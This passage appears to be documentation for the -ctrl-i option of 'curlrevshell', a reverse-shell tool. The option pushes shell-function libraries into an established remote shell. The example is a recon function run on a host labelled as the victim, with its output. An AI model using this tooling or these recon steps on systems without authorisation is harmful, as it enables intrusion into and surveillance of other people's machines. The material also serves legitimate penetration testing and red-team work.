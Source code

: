 `-ctrl-i`
---------
Specifies a file or directory with a bunch of shell functions to send to
the shell.  If it's a directory, the files in the directory will be sent over,
but not files in subdirectories or which start with a dot.
Like with `-callback-template`, the file is re-read every time it's needed,
so no need to restart curlrevshell if you change it.

Files ending in `.pl` will be turned into shell function which call perl under
the hood.  Stdio and argv and so on (should) work more or less like normal.

Files ending in `.sh` and `.subr` are sent as-is.

Everything else is ignored.  Makes it easy to stick a Makefile in there just in
case you want to do something like embed a Java `.class` in a shell script.  Or
something.

Lines which start with `# TABDOC:` are used to generate a table of functions,
printed by the aptly-named `tab_list` function.  In practice, this means
sticking something like `# TABDOC: my_thing A thing, that is mine` above your
functions and calling `tab_list` when you're ten functions in and don't
remember which is which.

For testing, `Ctrl+J` will print out what would be sent with `Ctrl+I`.
Alternatively, running with [`-print-ctrl-i`](#-print-ctrl-i) will print the
whole thing to stdout.

Handy for libraries of shell functions and telling people you load modules
in memory over the network.

### Example
Send a shell function library from `./sneaky.subr`.
```
# Make the library
echo '# TABDOC: recon Figure out what this box is doing' > ./sneaky.subr
echo 'recon() { id; uname -a; ps awwwfux; }; echo Loaded.' >> ./sneaky.subr
# Set it as the file to be sent
curlrevshell -ctrl-i ./sneaky.subr
...output...
22:28:02.425 [192.168.178.23] Shell is ready to go!
# Hit Ctrl+I here
22:28:03.453 Inserting ./sneaky.subr...
22:28:03.453 Inserted 225 bytes from ./sneaky.subr
22:28:03.453 SHA256: 3fda51a2d748949871ed3b8869600bfc176bec400b9126d70d50e6ef2411b4a6
Loaded.
> recon
uid=1000(victim) gid=1000(victim) groups=1000(victim), 0(wheel), 117(dialer)
OpenBSD target.example.com 7.5 GENERIC.MP#82 amd64
USER       PID %CPU %MEM   VSZ   RSS TT  STAT   STARTED       TIME COMMAND
root         1  0.0  0.0   916   408 ??  I      10May24    0:00.12 /sbin/init
...more process listing...
> tab_list
recon     - Figure out what this box is doing
tab_list  - This function list
```

